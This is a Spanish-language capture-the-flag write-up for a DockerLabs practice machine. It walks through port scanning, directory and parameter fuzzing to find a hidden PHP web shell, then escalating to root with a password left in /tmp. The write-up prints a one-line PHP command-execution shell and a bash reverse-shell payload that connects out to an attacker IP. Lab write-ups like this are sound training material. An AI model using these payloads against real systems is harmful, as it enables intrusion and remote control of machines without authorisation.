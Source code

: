 # Máquina WhereIsMyWebShell

***

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 80.

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos la versión de Apache y un título de la web. Accedemos a la web para seguir inspeccionando:

![Pasted image 20240412230806](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/6fe4e0bb-3e2d-48e8-9239-3457fdadcf10)

Encontramos esta web sobre la que no podemos interactuar en ningún aspecto. Al final del todo encontramos una pequeña pista.

![Pasted image 20240412230913](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1ce153dd-3323-4818-a2d4-fcd87759e3b6)

Más adelante veremos si esta información nos sirve para algo o no.

Como de costumbre, aplicamos **fuzzing** de directorios para intentar descubrir algún directorio interesante con la herramienta **gobuster**. Indicaremos también que queremos descubrir archivos con extensión php, txt, html, php.bak. Mediante el parámetro "**-x**"

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak
________________________________________________
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]   
/warning.html         (Status: 200) [Size: 315] 
/server-status        (Status: 403) [Size: 275] 
```

Encontramos dos archivos interesantes: **warning.html** y **shell.php**

***

## Explotación

Inspeccionamos **warning.html**:

![Pasted image 20240412231456](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c0266fb2-3fa6-4e35-8915-25f023b805d8)

Esto nos da una pista. Suponemos que el otro archivo (**shell.php**), tiene una estructura similar a:

```php
<?php
	system($_GET['cmd']);
?>
```

Pero desconocemos el nombre del parámetro que se usa en **shell.php**. Es decir, el parámetro "**cmd**" para el ejemplo de arriba.

Lo que vamos a hacer es **Fuzzear** con un diccionario, para descubrir cuál es ese parámetro que nos da una respuesta. En este caso he decidido emplear **wfuzz**. Donde usamos 200 hilos ("-t 200") para ir muy rápido, un diccionario típico de [SecLists](https://github.com/danielmiessler/SecLists), la macro **FUZZ** que se reemplazará con las palabras de la lista especificada anteriormente. Es decir, estaremos tratando de ejecutar el comando **id** para cada parámetro posible en la url.

```shell
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
--------------------------------------
000000020:   500        0 L      0 W        0 Ch        "crack"                                                                                                                                  
000000001:   500        0 L      0 W        0 Ch        "# directory-list-2.3-medium.txt"                                                                                                       
000000018:   500        0 L      0 W        0 Ch        "2006"                                                                                                       
000000003:   500        0 L      0 W        0 Ch        "# Copyright 2007 James Fisher"                                                                         
000000015:   500        0 L      0 W        0 Ch        "index"                         
```

Nos está reportando todos los resultados erróneos. Como todos los parámetros que no nos funcionan devuelven 0 líneas en la respuesta, vamos a ocultar los resultados que devuelvan ese número de líneas. Esto lo podemos hacer con el parámetro **--hl=0**.

```shell
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
-------------------------------------
000115401:   200        2 L      4 W        66 Ch       "parameter"     
```

Vemos que el parámetro -> "**parameter**" con el comando **id** que le hemos pasado, nos devuelve 2 líneas a diferencia del resto. Nos dirigimos a la web a comprobar que funciona y efectivamente hemos logrado un **RCE**. (Ejecución remota de comandos). Nos dirigimos a la web y lo comprobamos:

![Pasted image 20240412233935](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/23082e2d-ccfd-42eb-b5a8-a5e82ec722bf)

Como de costumbre, nos enviamos una **Reverse shell** para ganar acceso a la máquina:

Nos ponemos en escucha por el puerto 443 con **netcat**:

```shell
nc -nlvp 443
```

(Es posible que para escuchar con netcat por el puerto 443 necesites ser el usuario root)

Y en la URL vulnerable:

```
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.10.150/443 0>%261"
```

Los **"%26"** corresponden al símbolo **"&"** de forma URL-encodeada para que no den conflicto. Y siendo la **192.168.10.150** la **IP** de mi máquina atacante.

Hemos ganado acceso a la máquina:

![Pasted image 20240412234748](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/6ea678df-bb8c-4ed4-b3bb-4ecca28edbb8)

***

### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Según la pista que nos dieron al principio de este reto, acerca del directorio **/tmp**. Comprobamos su contenido. Usamos "**ls -la**" para listar posibles ficheros o directorios ocultos.

```shell
cd /tmp
ls -la
---------------------------------
total 4
drwxrwxrwt 1 root root  22 Apr 12 23:04 .
drwxr-xr-x 1 root root 152 Apr 12 23:04 ..
-rw-r--r-- 1 root root  21 Apr 12 16:07 .secret.txt
```

Veamos que encontramos en el txt llamado **.secret.txt**

```shell
cat .secret.txt
----------------------------------
contraseñaderoot123
```

Nos otorga una contraseña para el usuario **root** directamente.

```shell
su root
```

Introducimos la contraseña -> **contraseñaderoot123**

```shell
whoami
----------------------------------
root
```

¡ Hemos logrado el nivel de privilegios máximo sobre la máquina !
